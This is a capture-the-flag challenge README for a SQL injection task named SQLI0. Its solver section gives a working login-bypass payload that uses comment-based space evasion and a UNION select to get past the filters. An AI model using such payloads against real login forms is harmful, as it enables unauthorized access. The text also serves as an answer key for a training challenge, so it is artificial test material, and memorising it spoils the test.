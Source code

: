 # SQLI0

Author: xhalyl

## Description
For Palestine's cause, your voice shall resound
In this SQLi , where victory is found.

## Requirements

- Docker: [Dockerfile](./challenge/Dockerfile)

## Sources
  Private Sources.
- [challenge](./challenge)

## Solver
``` 
Since spaces are not allowed we can use /**/ instead , also "OR" is not allowed so we are using a union attack in order to return True .
So you login as 
username : anything'UNION/**/SELECT/**/1,2,3--
password : anything 